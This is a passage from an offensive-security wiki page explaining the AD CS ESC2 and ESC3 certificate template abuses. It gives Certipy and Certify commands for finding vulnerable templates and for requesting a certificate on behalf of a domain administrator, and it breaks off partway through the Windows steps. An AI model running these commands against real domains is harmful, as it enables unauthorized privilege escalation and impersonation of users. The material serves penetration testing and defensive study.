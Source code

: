 ### Any purpose EKU (ESC2)

When a certificate template specifies the **Any Purpose** EKU, or no EKU at all, the certificate can be used for anything. ESC2 can't be abused like ESC1 if the requester can't specify a SAN, however, it can be abused like ESC3 to use the certificate as requirement to request another one on behalf of any user.

### Certificate Agent EKU (ESC3)

When a certificate template specifies the **Certificate Request Agent** EKU, it is possible to use the issued certificate from this template to request another certificate on behalf of any user.

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC3 scenario. It is possible to output the result in an archive that can be uploaded in Bloodhound.

```bash
certipy find -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -vulnerable
```

Once a vulnerable template is found ([how to enumerate](broken-reference)), a request shall be made to obtain a certificate specifying the **Certificate Request Agent** EKU.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

Then, the issued certificate can be used to request another certificate permitting `Client Authentication` on behalf of another user.

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User' -on-behalf-of 'domain\domain admin' -pfx 'user.pfx'
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser
```

Once a vulnerable template is found, a request shall be made to obtain a certificate specifying the **Certificate Request Agent** EKU.
